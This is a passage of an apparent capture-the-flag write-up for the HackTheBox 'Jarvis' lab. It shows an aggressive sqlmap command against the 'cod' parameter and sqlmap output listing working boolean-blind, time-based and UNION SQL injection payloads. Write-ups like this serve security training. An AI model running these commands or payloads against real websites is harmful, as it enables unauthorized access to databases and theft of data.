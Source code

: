 **Sql Statments** cod=`hex(2)` works to. 

### 1. **Methode - SQLMap**

- `sqlmap -u [http://supersecurehotel.htb/room.php?cod=](http://supersecurehotel.htb/room.php?cod=) --random-agent --level=5 --risk=3 --dbs`
    
    INFO: It can happen that the side block 90 secounds
    
    - **GET parameter 'cod' is vulnerable.**
        
        ```
        sqlmap identified the following injection point(s) with a total of 
        10245 HTTP(s) requests:
        ---
        Parameter: cod (GET)
            Type: boolean-based blind
            Title: OR boolean-based blind - WHERE or HAVING clause
            Payload: cod=-9619 OR 6777=6777
        
            Type: time-based blind
            Title: MySQL >= 5.0.12 time-based blind - Parameter replace
            Payload: cod=(CASE WHEN (2722=2722) THEN SLEEP(5) ELSE 2722 END)
        
            Type: UNION query
            Title: Generic UNION query (random number) - 7 columns
            Payload: cod=-3493 UNION ALL SELECT 8143,CONCAT(0x717a6b6b71,
        0x6853505772764a6278416d7146537356464345556c45725a696c596b624a414956716
        a6c66787978,0x71706b6a71),8143,8143,8143,8143,8143-- -
        ---
        ```
        
        SqlMap check and confirmed the **7 Colums** !
        
        ![Untitled](Jarvis%202c6ef6729276453bbe90b4f7f2bf76e9/Untitled.png)
        
    
    **Find Databases Names:**
    